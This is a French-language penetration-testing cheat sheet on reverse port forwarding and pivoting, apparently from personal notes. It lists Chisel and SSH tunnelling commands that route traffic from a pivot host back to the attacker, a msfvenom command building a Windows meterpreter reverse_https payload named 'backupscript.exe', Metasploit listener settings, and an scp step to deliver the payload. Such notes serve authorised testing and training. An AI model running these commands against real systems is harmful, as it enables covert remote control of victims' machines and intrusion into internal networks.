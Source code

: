 


## **REVERSE / REMOTE PORT FORWARDING**


> [!TIP]
> Permet de rediriger le trafic depuis le point de pivot vers la machine de l'attaquant.

### CHISEL

Coté attaquant
```cmd
./chiselx64 server -p 8080 --reverse
```

Coté cible
```cmd
.\chiselx64.exe client <ip_attacker>:<port_attacker> R:<port_accessible_depuis_attacker>:127.0.0.1:<port_a_rediriger>
```

### SSH

![[Pasted image 20250331012847.png]]


```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipcible> -vN
```
#### Reverse shell

Créer un payload reverse shell avec comme ip et listener le point de pivot

```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

Lancer listener sur la machine de l'attaquant (0.0.0.0 port 8000)

```shell
use exploit/multi/handler
```

```msf
set LHOST 0.0.0.0
```

```msf
set LPORT 8000
```

```msf
set payload windows/x64/meterpreter/reverse_https
```


Transférer la charge sur la machine pivot

```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```
